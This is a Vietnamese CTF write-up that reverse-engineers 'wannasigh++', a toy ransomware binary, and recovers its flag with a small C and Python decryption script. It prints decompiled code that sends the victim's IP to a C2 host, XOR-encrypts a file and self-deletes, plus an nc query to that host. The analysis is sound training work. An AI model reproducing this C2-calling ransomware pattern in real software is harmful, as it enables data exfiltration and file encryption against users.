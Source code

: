 # Challenge

<p align="center">
  <img src="./wanna1.png" alt="Entry point"/>
</p>

# File: [wannasigh++.elf](./wannasigh++.elf) [your-flag.ransomed](./your-flag.ransomed)

# Solution:

```bash
┌──(nguyenguyen753㉿kali)-[~/CTF/wpictf/wannaSigh]
└─$ file wannasigh++.elf 
wannasigh++.elf: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=58e49acb6fec47ab8873a7c2a24c9834ce838c0d, for GNU/Linux 3.2.0, not stripped
```

Nhìn có vẻ bình thường, mình tiếp tục bằng cách dùng ghidra xem sơ qua đoạn chương trình:

```c++
undefined8 main(void)

{
  char cVar1;
  uint16_t uVar2;
  int iVar3;
  ssize_t sVar4;
  long in_FS_OFFSET;
  int local_188;
  int local_184;
  undefined4 local_180;
  undefined4 local_17c;
  char *local_178;
  hostent *local_170;
  undefined8 local_168;
  undefined8 local_160;
  undefined8 local_158;
  undefined8 local_150;
  undefined local_148;
  undefined8 local_138;
  undefined8 local_130;
  undefined4 local_128;
  undefined2 local_124;
  undefined local_122;
  undefined local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_158 = 0x79646165726c412e;
  local_150 = 0x65706f6e2e6e6152;
  local_148 = 0;
  cVar1 = exists((char *)&local_158);
  if (cVar1 != '\x01') {
    system("touch .AlreadyRan.nope");
    local_178 = (char *)malloc(0xf);
    getIPStr(local_178);
    local_138 = 0x5f68686868616142;
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    strcat((char *)&local_138,local_178);
    free(local_178);
    local_184 = socket(2,1,0);
    local_180 = 0x48b2;
    local_170 = gethostbyname("wannasigh109fn10fn48vh.wpictf.xyz");
    local_160 = 0;
    local_168 = 2;
    memmove((void *)((long)&local_168 + 4),*local_170->h_addr_list,(long)local_170->h_length);
    uVar2 = htons((uint16_t)local_180);
    local_168._0_4_ = CONCAT22(uVar2,(sa_family_t)local_168);
    local_168 = local_168 & 0xffffffff00000000 | (ulong)(uint)local_168;
    iVar3 = connect(local_184,(sockaddr *)&local_168,0x10);
    if (iVar3 != 0) {
      printf("The WannaSigh++ C2 server appears to be down.");
    }
    sVar4 = write(local_184,&local_138,0x17);
    local_17c = (undefined4)sVar4;
    local_138 = 0;
    local_130 = 0;
    local_128 = 0;
    local_124 = 0;
    local_122 = 0;
    sVar4 = read(local_184,local_118,0x100);
    local_17c = (undefined4)sVar4;
    close(local_184);
    local_188 = 0x2a;
    __isoc99_sscanf(local_118,&DAT_00102076,&local_188);
    encrypt(local_188);
    display();
  }
  system("rm -f wannasigh++.elf");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Hàm `encrypt()` có vẻ khá thú vị, ta xem thử hàm này:

<p align="center">
  <img src="./wanna2.png" alt="Entry point"/>
</p>

Tới đây ta đã hiểu cách mã hoá của hàm: đọc plaintext trong file `flag.txt`, sau đó lấy các số trong hàm `rand()` dựa trên `seed` được truyền vô hàm, sau đó đem `xor` từng kí tự trong plaintext với các số từ hàm `rand()`, sau đó ciphertext sẽ được ghi vào file `your-flag.ransomed`. Từ đây ta lần tham số được truyền vào hàm `srand()`, cũng như là `seed`.  
Để lần được `seed`, ta xem phải xem lại đoạn chương trình trước đó

<p align="center">
  <img src="./wanna3.png" alt="Entry point"/>
</p>

Mình nhìn sơ hàm `getIPStr()`:

<p align="center">
  <img src="./wanna4.png" alt="Entry point"/>
</p>

Kết hợp với debug, mình rút ra một vài thứ từ đoạn chương trình trên:
  - Hàm `getIPStr()` có mục đích lấy IPv4 của máy tính mình bằng hàm `curl -s https://bot.whatismyipaddress.com`
  - Sau khi có địa chỉ IPv4 của máy tính mình, đoạn chương trình tiếp theo sẽ kết nối với host `wannasigh109fn10fn48vh.wpictf.xyz` thông qua port `0x48b2` hay `18610`, sau đó truyền chuỗi `Baahhhh_ + IPv4`, trong đó `IPv4` là IPv4 của máy tính cá nhân của mình. Sau đó hàm sẽ trả về một số, và số đó chính là seed

<p align="center">
  <img src="./wanna5.png" alt="Entry point"/>
</p>

```bash
┌──(nguyenguyen753㉿kali)-[~/CTF/wpictf/wannaSigh]
└─$ nc wannasigh109fn10fn48vh.wpictf.xyz 18610      
Baahhhh_xx.xxx.xxx.xxx
1618617746
```

Từ đó mình sẽ viết script để có thể tìm flag từ file `your-flag.ransomed`:

# random.c
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
	srand(1618617746);
	for (int i=0; i<104; i++)
		printf("%d, ", rand());
}
```

# script.py
```python
f = open('encFlag', 'rb')
a = [i for i in f.readlines()[0]]

b = [896477183, 955207521, 24321907, 464893680, 1683277536, 1610985375, 1184200633, 1364516228, 985992837, 1507220167, 1156534586, 1811523396, 1923681696, 1530304704, 516114307, 1796450039, 242833060, 1805362011, 194104249, 2136184217, 953565787, 2016360961, 513989520, 141054934, 273597823, 366860163, 650686429, 353902088, 452966047, 96162748, 1266435010, 1349443231, 1051370269, 1290756918, 1814336911, 587164157, 754258645, 851053896, 1951680385, 1740251482, 210790416, 960731323, 1404291230, 2134472112, 343552380, 1920405537, 1783438503, 586385440, 1578283900, 1977542752, 575086009, 384366040, 1846420066, 1089075529, 525420974, 2120017889, 1455935692, 1176107403, 326436330, 1908901740, 1272270151, 1592871340, 1110861323, 176156772, 736144610, 777714586, 763320929, 1490403255, 1628768482, 567517666, 1083171090, 1839558898, 1528248990, 339978672, 1826547363, 1871801370, 112900562, 1462502218, 310703162, 1691184462, 1292561323, 885789171, 2075550502, 991497741, 1974864700, 453487828, 964031982, 1283316744, 1629595232, 1290468312, 1044734836, 754381735, 735856005, 8112511, 930538508, 1472000615, 785827097, 1693859437, 814920223, 267111932, 113893456, 1898091313, 2106670830, 1642142446]
randoms = [(i & 255) for i in b]

for i in range(len(a)):
	char = a[i] ^ randoms[i]
	print(chr(char), end ="")
```

`WPI{backup-your-files}`

# Rethinking
Bài này mình có 2 chỗ tới giờ mình vẫn chưa hiểu, mong các cao nhân có thể giúp mình hoàn thiện hơn =(((
  - Nếu để ý trong chương trình ta có đoạn chương trình nhỏ thế này:

<p align="center">
  <img src="./wanna6.png" alt="Entry point"/>
</p>

  Ngay khúc này, mình thực sự thắc mắc là `seed` truyền vô chắc chắn là `0x2a`, nhưng khi debug <i>lần đầu tiên</i>, mình lại ra một kết quả khác là `0x607a2592`, cũng chính là số mà server sẽ trả về cho mình
  - Mục đích mình in nghiêng cụm từ `lần đầu tiên` là vì khi mình debug lại chương trình, mình phát hiện ra rằng khi gửi request lên server lần thứ 2 liên tiếp trở đi, mình nhận một kết quả hoàn toàn khác so với lần đầu:

<p align="center">
  <img src="./wanna6.png" alt="Entry point"/>
</p>

  Mình phải chờ một khoảng thời gian lâu sau đó thì mình mới có thể nhận lại kết quả ban đầu, cũng là con số `seed` mình nhận được lúc đầu tiên. Lúc này mình thắc mắc là do bên server nó cố tình code như thế, hay là do mình đã chưa hiểu gì đó về mấy cái mạng network này @@, hoặc có thể có đoạn nào đó trong bin mình đã đọc chưa kĩ =((((